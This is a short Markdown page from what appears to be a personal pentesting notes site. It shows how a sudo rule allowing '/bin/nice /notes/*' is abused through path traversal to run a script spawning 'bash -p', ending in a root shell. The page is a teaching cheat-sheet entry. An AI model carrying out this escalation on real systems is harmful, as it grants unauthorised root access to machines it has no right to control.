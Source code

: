 ```yaml
---
layout: default
title: Nice
parent: Sudo
nav_order: 11
---
```


# Nice

---

## Sudo -l

```bash
webadmin@serv:/home/florianges$ sudo -l
Matching Defaults entries for webadmin on serv:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on serv:
    (ALL : ALL) /bin/nice /notes/*

```

We can run _/bin/nice_ with sudo privileges against anything after _/notes/_.

If we place a script to execute a _/bin/bash_ shell in our _/home/webadmin_ directory we should get a shell with root privileges.

```bash
webadmin@serv:~$ vi evil.sh

# write a simple /bin/bash script
#!/bin/bash

/bin/bash -p

# Make the script executable
chmod +x evil.sh

# Execute and get elevated privileges
webadmin@serv:~$ sudo /bin/nice /notes/../home/webadmin/evil.sh
root@serv:/home/webadmin# id
uid=0(root) gid=0(root) groups=0(root)


```

